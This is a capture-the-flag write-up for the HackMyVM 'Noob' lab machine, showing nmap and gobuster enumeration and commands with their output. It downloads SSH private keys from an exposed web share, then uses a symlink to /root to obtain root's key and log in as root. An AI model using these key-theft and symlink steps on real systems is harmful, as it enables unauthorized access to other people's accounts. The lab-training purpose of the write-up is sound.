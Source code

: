 ```yaml
---
title: "Noob Writeup HackMyVM"
date: 2025-07-10 00:00:00 +0530
categories: [Write Up,  HackMyVM] 
tags: [Privilege Escalation, SSH, RSA key, Symbolic Link]
---
```


![Alt Text](/img/noob/1.png)


<strong>The penetration test began with a nmap scan, which revealed that ports 22 (SSH) and 65530 were open. Further enumeration using Gobuster on port 65530 led to the discovery of the nt4share directory. SSH connection was established using a key found in nt4share. To escalate privileges, a symbolic link was created, granting access to the root account. The penetration test culminated in accessing the root account via SSH using the newly acquired key, enabling the retrieval of the flags.</strong>


<a href="https://hackmyvm.eu/machines/machine.php?vm=Noob" target="_blank" rel="noopener noreferrer">vm link</a>

#### >> Create a variable for the IP to avoid retyping the address each time
```shell
┌──(kali㉿kali)-[~/Desktop/noob]
└─$ ip=192.168.0.124
```
<br>
## Enumeration
<br>

#### >> Scan for open ports and services using nmap
 - also try ```nmap -sCV -p22,65530 -n -Pn -vvv 192.168.0.124 -oN target```

```shell
┌──(kali㉿kali)-[~/Desktop/noob]
└─$ sudo nmap -sC -sV -p- -T4 -A -O $ip
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-18 06:50 IST
Nmap scan report for 192.168.0.124
Host is up (0.00097s latency).
Not shown: 65533 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 66:6a:8e:22:cd:dd:75:52:a6:0a:46:06:bc:df:53:0f (RSA)
|   256 c2:48:46:33:d4:fa:c0:e7:df:de:54:71:58:89:36:e8 (ECDSA)
|_  256 5e:50:90:71:08:5a:88:62:7e:81:07:c3:9a:c1:c1:c6 (ED25519)
65530/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).
MAC Address: 08:00:27:6C:C3:C4 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.98 ms 192.168.0.124

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.75 seconds

```

- Port 22 & 65530 are open

![Alt Text](/img/noob/2.png)

## Gobutser port 65530

```shell
┌──(kali㉿kali)-[~/Desktop/noob]
└─$ gobuster dir -u http://$ip:65530/ -w /wordlists/directory-list-2.3-medium.txt -x php,txt,html,css,js,zip,bak -t 200
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.0.124:65530/
[+] Method:                  GET
[+] Threads:                 200
[+] Wordlist:                /wordlists/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,txt,html,css,js,zip,bak
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index                (Status: 200) [Size: 19]
/http%3a%2f%2fwww     (Status: 301) [Size: 45] [--> /http:/www]
/http%3a%2f%2fwww.bak (Status: 301) [Size: 49] [--> /http:/www.bak]
/http%3a%2f%2fwww.php (Status: 301) [Size: 49] [--> /http:/www.php]
/http%3a%2f%2fwww.txt (Status: 301) [Size: 49] [--> /http:/www.txt]
/http%3a%2f%2fwww.html (Status: 301) [Size: 50] [--> /http:/www.html]
/http%3a%2f%2fwww.css (Status: 301) [Size: 49] [--> /http:/www.css]
/http%3a%2f%2fwww.js  (Status: 301) [Size: 48] [--> /http:/www.js]
/http%3a%2f%2fwww.zip (Status: 301) [Size: 49] [--> /http:/www.zip]
/http%3a%2f%2fyoutube (Status: 301) [Size: 49] [--> /http:/youtube]
/http%3a%2f%2fswik.html (Status: 301) [Size: 51] [--> /http:/swik.html]
/http%3a%2f%2fswik.css (Status: 301) [Size: 50] [--> /http:/swik.css]
/http%3a%2f%2fswik.js (Status: 301) [Size: 49] [--> /http:/swik.js]
/http%3a%2f%2fswik.zip (Status: 301) [Size: 50] [--> /http:/swik.zip]
/http%3a%2f%2fswik.bak (Status: 301) [Size: 50] [--> /http:/swik.bak]
/http%3a%2f%2fswik.php (Status: 301) [Size: 50] [--> /http:/swik.php]
/nt4share             (Status: 301) [Size: 45] [--> /nt4share/]                                <<<
Progress: 1661144 / 1661152 (100.00%)
===============================================================
Finished
===============================================================
                                                                
```
![Alt Text](/img/noob/3.png)

![Alt Text](/img/noob/4.png)

- Chek keys
- Let's try `SSH` with `id_rsa`

`wget http://$ip:65530/nt4share/.ssh/id_rsa`

`chmod 600 id_rsa`


## Establish SSH connection

```shell
┌──(kali㉿kali)-[~/Desktop/noob]
└─$ ssh -i id_rsa adela@$ip
Linux noob 4.19.0-16-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Mon Jun 17 22:18:48 2024 from 192.168.0.190
adela@noob:~$ id
uid=1000(adela) gid=1000(adela) groups=1000(adela),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
adela@noob:~$ 
```

## Privilege Escalation

#### >> Creating a symbolic link named root that points to the root directory (/root) allows for easy access to the root directory from another location in the filesystem.

```shell                                                                           
adela@noob:~$ cat /etc/passwd | grep /bin/bash
root:x:0:0:root:/root:/bin/bash
adela:x:1000:1000:adela,,,:/home/adela:/bin/bash
adela@noob:~$ ln -s /root root
adela@noob:~$ ls -al
total 28
drwxr-xr-x 3 adela adela 4096 Jun 17 21:02 .
drwxr-xr-x 3 root  root  4096 Jul 11  2021 ..
-rw-r--r-- 1 adela adela  220 Jul 11  2021 .bash_logout
-rw-r--r-- 1 adela adela 3526 Jul 11  2021 .bashrc
-rw-r--r-- 1 adela adela  807 Jul 11  2021 .profile
lrwxrwxrwx 1 adela adela    5 Jun 17 21:02 root -> /root                                       <<<
drwx------ 2 adela adela 4096 Jul 13  2021 .ssh
-rw------- 1 adela adela   50 Jul 14  2021 .Xauthority 
```
- `lrwxrwxrwx 1 adela adela    5 Jun 17 21:02 root -> /root` symbolic link created.
- Accessing the `nt4share` again. We have a new directory `root`
![Alt Text](/img/noob/5.png)

![Alt Text](/img/noob/6.png)

#### >> Let's get `id_rsa` from `root` and `SSH` it.

`wget http://$ip:65530/nt4share/root/.ssh/id_rsa`


```shell                                                                           
┌──(kali㉿kali)-[~/Desktop/noob]
└─$ ssh -i id_rsa root@$ip
Linux noob 4.19.0-16-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Mon Jun 17 21:10:45 2024 from 192.168.0.190
root@noob:~# ls
root.txt  user.txt
root@noob:~# 

```
- Now we have both the flags

<br>
<center>pwned</center>